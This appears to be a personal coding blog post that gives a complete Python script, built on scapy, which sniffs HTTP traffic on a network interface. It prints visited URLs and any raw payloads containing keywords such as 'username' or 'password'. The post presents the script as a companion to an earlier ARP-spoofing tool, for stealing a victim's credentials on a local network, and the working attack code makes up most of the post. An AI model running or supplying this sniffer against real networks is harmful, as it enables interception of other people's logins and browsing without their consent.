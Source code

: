 ```yaml
---
title: A Credential/Url sniffer program
date: 2021-06-28 09:45:47 +07:00
categories: python_101
#modified: 20-08-29 09:24:47 +07:00
#tags: [blog, netlify, jekyll, github]
description: A program to sniff Credentials.
---
```



<p align="left">
 <img src="https://i.kym-cdn.com/photos/images/facebook/001/651/265/287.jpg">
</p>

## This is a python script that sniffs for URL's/Login creds on a specific interface. When coupled with the previous ARPSpoof program this program can be used to remotely sniff traffic between the ARPSpoofed victims.

**In this example we ARP poison/spoof the connection between the target Windows system(192.168.0.117) and the gateway router(192.168.0.1) to remotely sniff any creds/urls visited by the victim.**

* Used the scapy_http module to interact with HTTP layers and filter them as needed.

* Implemented scapy.sniff() function to sniff traffic and filter with BPF's(Berkley Packet Filters).

* Byte object conversion to string using str() and decode() functions for cross-compatibility with python3.



### Code:

```python
#!/usr/bin/env python


import argparse 
import scapy.all as scapy
from scapy.layers import http
# pip install scapy_http

def get_arguments():
    parser = argparse.ArgumentParser()
    parser.add_argument("-i", "--Interface", dest="interface", help="Host Interface to sniff on")
    options = parser.parse_args()
    if not options.interface:
        # code to handle error
        parser.error("[-] Please specify a valid Host Interface, use --help for info.")
    return options

def sniff(interface):
	# store --> storing packets in memory
	# prn --> callback function
	# filter --> filter according to BPF like TCP/port 80/ICMP
	scapy.sniff(iface=interface , store=False, prn=process_sniffed_packet)


def get_url(packet):
	return packet[http.HTTPRequest].Host + packet[http.HTTPRequest].Path

def get_login_info(packet):
	# Filter for raw content
		if packet.haslayer(scapy.Raw):
			load = str(packet[scapy.Raw].load)
			keywords = ["username", "user", "login", "password", "pass", "uname"]
			for keyword in keywords:
				if keyword in load:
					return load

def get_host_info(packet):
		if packet.haslayer(scapy.IP):
			return str(packet[scapy.IP].src)

					

def process_sniffed_packet(packet):
	# Filter based on http layer
	if packet.haslayer(http.HTTPRequest):
		url = get_url(packet)
		print("[+] Captured Urls: " + url.decode())
		login_info = get_login_info(packet)
		if login_info:
			host_info = get_host_info(packet)
			print("\n[+] Packet found from host: " + host_info)
			print("\n[+!] Possible Login Data: " + str(login_info) + "\n------------------------\n")
		

print("""
                                                        
|              o         ,---.     o,---.,---.          
|    ,---.,---..,---.    `---.,---..|__. |__. ,---.,---.
|    |   ||   |||   |        ||   |||    |    |---'|    
`---'`---'`---|``   '    `---'`   '``    `    `---'`    
          `---'                                         
                                                                                                
                                                         """)

options = get_arguments()
sniff(options.interface)
```

### Output:

__Attacker:__

![Image](https://raw.githubusercontent.com/m3rcer/m3rcer.github.io/master/_posts/coding/python/Login_Sniffer/sniff.png)

__Victim:__

![Image](https://raw.githubusercontent.com/m3rcer/m3rcer.github.io/master/_posts/coding/python/Login_Sniffer/sniff2.png)
